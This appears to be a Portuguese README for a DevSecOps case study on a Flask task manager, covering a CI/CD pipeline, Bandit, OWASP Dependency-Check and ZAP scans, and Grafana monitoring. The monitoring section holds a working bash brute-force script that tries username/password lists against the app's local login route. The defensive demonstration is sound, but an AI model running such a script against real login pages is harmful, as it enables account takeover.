 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />

2. Construir o diagrama para entender o domínio do problema:

![dfd](https://github.com/user-attachments/assets/6809cba3-bd94-4042-beb3-96beb5435c44)

<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

**Branches:**
- `master`: produção  
- `development`: desenvolvimento  
- `staging`: homologação

**Ferramentas Utilizadas:**
- Visual Studio Code
- GitLab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra
- Prometheus
- Grafana

1. Implementação do Dockerfile:

![dockerfile](https://github.com/user-attachments/assets/2c5f592a-185b-4f68-b372-33077d93eed0)


2. Aplicação executada na porta 5000:

   ![app](https://github.com/user-attachments/assets/815bb208-495e-4b0b-9931-5ea3d2c150e5)


<hr>

### ETAPA 3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline:

![gitlabci](https://github.com/user-attachments/assets/8d68bae7-73df-4b91-9e75-5c012a159177)


2. Pipeline em execução no GitLab:

![pipeline-initial](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-initial.png)
<hr>

### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/bandit.png)

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artefact-bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)

3. Correção no código da falha capturada pelo Bandit:

![fix-bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/fixenv.png)

4. Implementação do OWASP Dependency Check na pipeline:

![owasp-dependency_check](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/owasp-dependecy-check.png)

5. Artefato gerado com vulnerabilidades no código JavaScript:

![artefact-dependency](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

![zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/zap-attack-tools.png)

2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact-zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa de revisão de código na pipeline:

![review](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/review-pipeline.png)

2. Implementação do OWASP ZAP para executar em toda a pipeline na homologação:

![owasp-zap](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/images/dast.png)
<hr>

### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometheus-grafana](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/grafana-prometheus.png)

2. Implementação do ataque de força bruta em bash:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline_full](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-finished.png)

<br />
